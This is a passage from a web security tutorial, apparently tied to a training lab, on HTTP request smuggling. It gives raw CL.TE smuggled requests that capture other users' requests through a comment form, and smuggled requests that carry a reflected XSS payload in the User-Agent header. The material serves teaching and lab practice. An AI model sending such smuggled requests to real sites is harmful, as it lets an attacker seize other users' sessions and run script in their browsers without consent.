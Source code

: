 ```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

The `Content-Length` header of the smuggled request indicates that the body will be 400 bytes long, but we've only sent 144 bytes. In this case, the back-end server will wait for the remaining 256 bytes before issuing the response, or else issue a timeout if this doesn't arrive quick enough.

## Using HTTP request smuggling to exploit reflected XSS <a href="#using-http-request-smuggling-to-exploit-reflected-xss" id="using-http-request-smuggling-to-exploit-reflected-xss"></a>

If an application is vulnerable to HTTP request smuggling and also contains reflected XSS, you can use a request smuggling attack to hit other users of the application. This approach is superior to normal exploitation of reflected XSS in two ways:

* It requires no interaction with victim users. You don't need to feed them a URL and wait for them to visit it. You just smuggle a request containing the XSS payload and the next user's request that is processed by the back-end server will be hit.
* It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers.

For example, suppose an application has a reflected XSS vulnerability in the `User-Agent` header. You can exploit this in a request smuggling attack as follows:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

```
POST / HTTP/1.1
Host: 0ac600bb04c0b2b881c97592009e0090.web-security-academy.net
Cookie: session=8iPXyddAkd8H2vIvtd6Sa2eawkj4b9A8
Content-Type: application/x-www-form-urlencoded
Content-Length: 149
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: "/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
```